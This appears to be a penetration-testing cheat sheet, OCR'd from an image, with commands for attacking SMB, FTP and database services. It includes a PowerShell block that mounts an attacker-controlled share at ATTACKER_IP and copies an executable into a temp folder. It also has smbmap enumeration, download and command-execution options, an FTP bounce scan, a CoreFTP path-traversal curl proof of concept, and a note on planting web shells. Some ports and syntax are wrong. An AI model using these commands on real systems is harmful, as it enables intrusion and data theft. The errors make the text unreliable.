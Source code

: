 ```
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword

New-PSDrive -Name "N" -Root "\\Attacker\share" -PSProvider "FileSystem" -Credential $cred
New-PSDrive -Name "N" -Root "\\ATTACKER_IP\share -PSProvider "FileSystem"

# retrieve the files on the share
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe

# Disconnect server
net use \\ATTACKER_IP\share /del
```

- **enum4linux**
- [SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)


#### SMBMAP
- Default
  - smbmap -H $target
  
- Enumerate
  - -u USERNAME
  - -r DiskName
    - smbmap -H $target -r DiskName
  - -u USER -H $target -r /ShareNAME/Folder
  - -u "" -p "" = Null section
  - -x COMMANDS
- Download

  - smbmap -u USER -H $target -r /ShareNAME/Folder ---download "share/file.ext"
- Options
  - -H: host
  - -r: path
  - -u: User
  - -p: password

### FTP - 32
- ftp $TARGET
  - mget | get
  - mput | put
- nmap --script ftp-anon

- Bounce attack: deliver outbound traffic to anotehr device
  - nmap -p 80 -b user:pass@$TARGET INTERNAL_IP

```
# CoreFTP attack
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

### mssql | mysql
- web shell to web directory
- default web server: iis apppool\defaultapppool
- mssql: tcp:1443 | upd:1434
- mysql: tco:3306 | tcp:2433
